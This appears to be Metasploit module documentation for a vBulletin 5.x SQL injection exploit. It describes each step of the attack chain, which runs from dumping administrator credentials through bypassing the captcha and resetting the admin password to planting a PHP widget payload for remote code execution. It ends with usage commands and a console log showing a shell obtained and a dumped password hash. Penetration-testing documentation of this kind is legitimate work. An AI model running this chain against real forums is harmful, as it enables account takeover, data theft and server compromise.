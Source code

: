 ## Description

This module exploits a SQL injection vulnerability present in vBulletin 5.2.0 through 5.6.1 in the `getIndexableContent` function. This vulnerability is triggered through the `nodeId` variable and can be reached through multiple paths (listed below) but is exploited in this module utilizing the `/ajax/api/content_infraction/getIndexableContent` path.

- /ajax/api/content_video/getIndexableContent
- /ajax/api/content_text/getIndexableContent
- /ajax/api/content_report/getIndexableContent
- /ajax/api/content_redirect/getIndexableContent
- /ajax/api/content_privatemessage/getIndexableContent
- /ajax/api/content_poll/getIndexableContent
- /ajax/api/content_photo/getIndexableContent
- /ajax/api/content_link/getIndexableContent
- /ajax/api/content_infraction/getIndexableContent
- /ajax/api/content_gallery/getIndexableContent
- /ajax/api/content_event/getIndexableContent
- /ajax/api/content_channel/getIndexableContent
- /ajax/api/content_attach/getIndexableContent

Each path listed above reaches the `getIndexableContent` function within the `/core/vb/library/content.php` file. The SQL injection attack used utilizes a 
UNION query in order to leak data back in the response `rawtext` field.

### Leveraging getContentIndexable SQL injection for RCE

The exploit begins by attempting to get a `nodeid` for use in the SQL injection attack, this can be supplied by the user within the `NODE` module option, or if not supplied, the value is brute-forced within the bounds of the `MINNODE` and `MAXNODE` module options. After acquiring a valid `nodeid`, the exploit attempts to obtain the vBulletin install's table prefix. This is done by using the `getIndexableContent` SQL injection vulnerability to query the `INFORMATION_SCHEMA` table and get a result we expect (to determine if there is a prefix attached). In the module we use the `language` table for this process. After getting the table prefix we can begin dumping the table data, we start with the administrator user id, username, token, and email. These are used later in the process to make a lost password request and can also be used to backup the administrator user's data prior to the destructive change that will happen when the password is changed later in the module. After acquiring the administrator info the script begins the to gather other pieces needed to submit a lost password request. This part can vary between installs but involves a form of "human verification" along with an administrator's email. The module will attempt to determine the human verification (or captcha) type, then determine if a bypass or solve is possible. There are 4 total types of human verification, an image (GD or ImageMagic based), a Question/Answer (which is stored as a regular expression), Recaptcha2 (an external api based captcha), and disabled. 

- If an `Image` (GD or ImageMagic based) human verification is selected, the module can bypass it and requires no interaction. This is done by querying the database for the image contents using the SQL injection vulnerabilty. 

- If the `Question/Answer` human verification is selected, the module will attempt to submit the answer retrieved from the database utilizing the SQL injection vulnerability. This can sometimes fail and require manual intervention if a complex regular expression is used but the answer is provided through the modules output. 

- If the `Recaptcha2` human verification method is selected, the module will fail with a message along with an administrators email to use for a lost password request.

- If `Disabled` is chosen, the script will work without action.

After bypassing the human verification the script will attempt to send a lost password request, this will send an email to the administrator. If the human verification request fails, the module can be configured to skip the human verification and lost password steps. This is done by setting the modules `MANUALLOSTPASS` option to true, **this however does require that just prior to running the exploit the lost password request is made**. If the administrator completes the request, the activation token will be removed from the database and the next step of the reset will fail. After the lost password request is made, the module then attempts to retrieve the Activation ID from the database using the SQL injection vulnerability. When all of the above is completed, the administrators password can finally be reset. The password is changed to a random 10-16 character alphanumeric password which is displayed in the modules output.

The module can now begin to lever the administrator access for remote command execution. This begins by first creating a new widget instance, this widget instance is of a `widget_php` type (a special type that allows for php code embedded within). After the widget instance is created, the module then attempts to modify the widget to add our selected payload. The widget is then ready to use and is added to a new page. This page is created with a randomly generated 10 to 16 character alphanumeric url. The payload and attack is then ready to execute and the module makes a final request in the attack process to execute the PHP payload. Upon successful completion, the page is deleted from the vBulletin install

## Vulnerable Application

  [vBulletin](https://www.vbulletin.com) A popular PHP bulletin board and blog web application.
  This module has been tested successfully against vBulletin 5.6.1 running on Ubuntu Linux 19.04

## Options

**MANUALLOSTPASS**

A boolean value used to determine if the lost password request should be automated or will be performed manually. **Default: false**

**NODE**

A valid node id value for the vBulletin install. When provided, this value is used instead of that acquired by brute-forcing 

**MINNODE**

A minimum nodeid value to begin with when brute-forcing for a valid node id. **Default: 1**

**MAXNODE**

A maximum nodeid value to end with when brute-forcing for a valid node id. **Default: 200**

**TARGETURI**

The base URI path of vBulletin. **Default: /**

## Verification Steps

1. Do: ```use exploit/multi/http/vbulletin_getindexablecontent```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set VHOST [HOSTNAME]```
4. Do: ```set TARGETURI [PATH]```
5. Do: ```set PAYLOAD [PAYLOADNUM]```
6. Do: ```run```

## Scenarios

```
msf5 > use exploit/multi/http/vbulletin_getindexablecontent 
msf5 exploit(multi/http/vbulletin_getindexablecontent) > set RHOSTS vb.local
RHOSTS => vb.local
msf5 exploit(multi/http/vbulletin_getindexablecontent) > set VHOST vb.local
VHOST => vb.local
msf5 exploit(multi/http/vbulletin_getindexablecontent) > set TARGETURI /vb5
TARGETURI => /vb5
msf5 exploit(multi/http/vbulletin_getindexablecontent) > set PAYLOAD 2
msf5 exploit(multi/http/vbulletin_getindexablecontent) > check
[*] 192.168.1.100:80 - The target appears to be vulnerable.
msf5 exploit(multi/http/vbulletin_getindexablecontent) > run

[*] Brute forcing to find a valid node id.
[+] Sucessfully found node at id 1
[*] Attempting to determine the vBulletin table prefix.
[*] Performing SQL injection on target to retrieve 'table_name' from 'information_schema.columns'.
[+] Sucessfully retrieved table to get prefix from vb5_language.
[*] Performing SQL injection on target to retrieve 'userid' from 'vb5_administrator'.
[*] Performing SQL injection on target to retrieve 'username' from 'vb5_user'.
[*] Performing SQL injection on target to retrieve 'token' from 'vb5_user'.
[*] Performing SQL injection on target to retrieve 'email' from 'vb5_user'.
[+] Retrieved administrator uid: 1 user: administrator email: zenofex@exploitee.rs and password: $2y$15$IKz0ra/N2WrJr4BZZMExIOwIET.4Tz8Wni20BMEHjG/A.k9tuOK.W
[*] Sending request to '/vb5/ajax/api/hv/fetchHvType' to get human verification type.
[+] Retrieved HV/captcha type of 'Image'.
[*] Making request to '/vb5/ajax/api/hv/generateToken' to retrieve HV token.
[+] Retrieved '85885c3fafb61b91cb3d2959e13ffe07' human verification token.
[*] Using HV token '85885c3fafb61b91cb3d2959e13ffe07' and SQLinjection to determine HV answer.
[*] Performing SQL injection on target to retrieve 'answer' from 'vb5_humanverify'.
[+] Retrieved '4w8CPc' answer to HV token '85885c3fafb61b91cb3d2959e13ffe07'.
[*] Making request to '/vb5/auth/lostpw' to begin lost password process.
[*] Performing SQL injection on target to retrieve 'activationid' from 'vb5_useractivation'.
[*] Sending reset password request to '/vb5/auth/reset-password'.
[+] User with userid '1' successfully reset password to 'dSxTtxI7yh'.
[*] Making login request to '/vb5/auth/ajax-login' with username: 'administrator' and password: 'dSxTtxI7yh'.
[+] Successfully logged in as administrator .
[*] Making request to '/vb5/ajax/activate-sitebuilder' to activate site-builder functionality.
[+] Successfully enabled site-builder functionality.
[*] Making login request to '/vb5/auth/ajax-login' with username: 'administrator' and password: 'dSxTtxI7yh'.
[+] Successfully logged in as administrator cplogin.
[*] Making request to '/vb5/ajax/api/widget/saveNewWidgetInstance' to create new widget.
[+] Created new widget instance.
[*] Making request to '/vb5/ajax/api/widget/saveAdminConfig' to add payload to widget.
[+] Successfully added payload to widget.
[*] Sending request to '/vb5/admin/savepage' to save new page at 'OToB9nTU'.
[+] Page succesfully create and should be accessible at '/vb5/OToB9nTU'.
[+] Executing PHP payload (230 bytes) at /vb5/OToB9nTU.
[*] Sending request to '/vb5/OToB9nTU' to execute payload.
[*] Sending delete page request to '/vb5/ajax/api/page/delete'.
[+] Successfully deleted page with pageid: 148
[*] Started bind TCP handler against 192.168.1.100:4444
[*] Command shell session 1 opened (0.0.0.0:0 -> 192.168.1.100:4444) at 2020-05-22 21:24:42 -0500

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
